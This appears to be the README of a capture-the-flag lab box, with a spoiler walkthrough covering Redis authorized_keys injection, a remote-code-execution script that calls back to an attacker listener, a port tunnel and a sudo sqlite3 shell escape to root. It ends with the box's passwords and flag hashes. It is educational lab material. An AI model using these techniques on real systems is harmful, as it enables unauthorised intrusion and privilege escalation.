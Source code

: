 # WARNING THIS IS A CTF BOX, GO TO [RELEASES](https://github.com/SOROM2/poly-ctf-box/releases/latest) FOR THE OVF
Then come back here if you get stuck or complete the box.


## SPOILERS BELOW

<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>

## User



### Port 6379
Misconfigured Redis server
Vulnerable to sshkey authorized_keys injection using redis_sshkey_dropper.sh

Gets access to the server as redis user

    ./redis_sshkey_dropper.sh 10.10.69.13 6379 redis /var/lib/redis/.ssh

### Port 8080
Custom HTTP server
Source code is "leaked" with a comment on /index.html
Vulnerable to RCE using webserver_python_RCE.sh

Tunnel the port from the shell you got from redis by typing:

    ~C
    -L 8080:127.0.0.1:8080

Gets access to michiko-arasaka user

    ./webserver_python_RCE.sh http://127.0.0.1:8080/ 10.10.69.42 3000

## Root

### Sudo sqlite3

As `michiko-arasaka` you can list your sudo permissions with `sudo -l`

You can execute sqlite3 as root on this box, so you can run

    sudo /usr/bin/sqlite3
    .shell /bin/bash

Rooted!

## Creds
root:UnguessableP@ssw0rd

/root/root.txt : 4e067a8231035d94ca54f1e41c12df6e
 

michiko-arasaka:4d4m5M@SH3R

/home/michiko-arasaka/user.txt : 169ab538813557728c78b637db91d1b0

